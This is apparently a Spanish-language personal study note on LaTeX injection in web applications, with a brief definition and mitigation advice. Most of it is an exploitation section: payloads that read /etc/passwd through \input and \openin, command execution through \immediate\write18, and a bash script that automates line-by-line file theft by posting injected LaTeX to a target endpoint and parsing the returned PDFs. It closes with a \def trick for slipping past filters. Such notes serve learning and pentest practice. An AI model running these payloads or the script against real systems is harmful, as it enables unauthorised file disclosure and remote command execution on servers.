 -----
- Tags: #ataques #basico #teoria #practica
----

# ¿ Que es **LaTeX** ?

### **LaTeX** es un sistema de composición de textos, orientado a la creación de documentos escritos que presenten una alta calidad tipográfica. Esta formado mayoritariamente por órdenes construidas a partir de comandos de **TeX** pero con la ventaja de **poder aumentar las capacidades** de  **LaTeX** utilizando comandos propios de **TeX** .

----

# ¿ Que son las **LaTeX Injections** ? 

### Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en **LaTeX**. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

### Estos ataques ocurren cuando un atacante **ingresa código LaTeX malicioso** en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para **aprovechar vulnerabilidades** en la aplicación conseguir una [[RCE - (Remote Command Execution)]]. 

### Un ejemplo podría ser un atacante qeu aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red. 

-----

#  Evitar estos ataques 

### Para evitar las **inyecciones LaTeX**, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

### También es importate que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitorees regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el use de LaTeX y cómo evitar la introducción de código malicioso.

---

# Explotación 

### En la explotación de LaTeX, existen varias inyecciónes las cuales se pueden ver ([Inyecciones de LaTeX](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection), [más inyecciones en otra página](https://salmonsec.com/cheatsheet/latex_injection)). 

## Read file 

### `\input{/etc/passwd}` Esto aveces puede entrar en conflicto devido a los caracteres

### Por lo que podriamos hacer uso de este input para leer archivos y haciendo uso `\immediate\write18{command}` para hacer algo como lo sig. 

### `\immediate\write18{cat /etc/passwd | base64 > output}`
### `\input{output}

###  Otras inyecciones sirven para leer unicamente arcivos .tex:

### `\include{somefile} # load .tex file (somefile.tex)`

### Tambien podriamos leer línea por línea:

### Para ver la primera línea de un archivo: 

### `\newread\file`
### `\openin\file=/etc/passwd`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Para ver la segunda: 

### `\newread\file`
### `\openin\file=/etc/passwd`
### `\read\file to\line`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Y así sucesivamente para ver más lineas agregando el `\read\file to\line`

### Si bien podriamos intentar leer multiples líneas de LaTeX, hay veces que por determinados carácteres no se logran visualizar, por lo que podriamos tener un error, en ese caso seria más optimo crear un script en bash para lograr esto mismo. 

### Ejemplo de script:

```shell
#!/bin/bash 
 
# Global Vars 

declare -r url="http://localhost/ajax.php" # Declaramos una variable unicamente de "lecutar" para evitar ocupar mucho espacio
filename=$1

if [ $filename ]; then
	line="%0A\read\file%20to\line"
  for i in $(seq 1 100);do 

	file_to_download=$(curl -s -X POST $url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$line%0A\text{\line}%0A\closein\file&template=blank" | /usr/bin/grep -i download | /usr/bin/awk 'NF{print $NF}')
  
	if [ $file_to_download ]; then 
	  wget $file_to_download &>/dev/null 
  
	  file_to_convert=$(echo $file_to_download | /usr/bin/tr '/' ' ' | /usr/bin/awk 'NF{print $NF}')
	  /usr/bin/pdftotext $file_to_convert 
  
	  file_to_read=$(echo $file_to_convert | /usr/bin/sed 's/\.pdf/\.txt/')
	  rm $file_to_convert 
	  /usr/bin/cat $file_to_read | /usr/bin/head -n 1
	  rm $file_to_read
	  line+="%0A\read\file%20to\line"
	else 
	  line+="%0A\read\file%20to\line"
	fi
  done 
else 
  echo -e "\n\n\t[!] Usage: $0 /etc/passwd\n\n"
fi 
```

### Tambíen podriamos intentar ejecutar comandos 

### `\immediate\write18{whoami}`

### O ejecutar un comando y leer el output que es guardado en un archivo: 

### `\immediate\write18{whoami > output}`
### `\newread\file`
### `\openin\file=output
### `\read\file to\line`
### `\read\file to\line`
### `\text{\line}`
### `\closein\file`

### Y para burlar algunas reinstricciones se podria hacer uso de la definición de "variables": 

### `\def\first{in}
### `\def\second{put}`

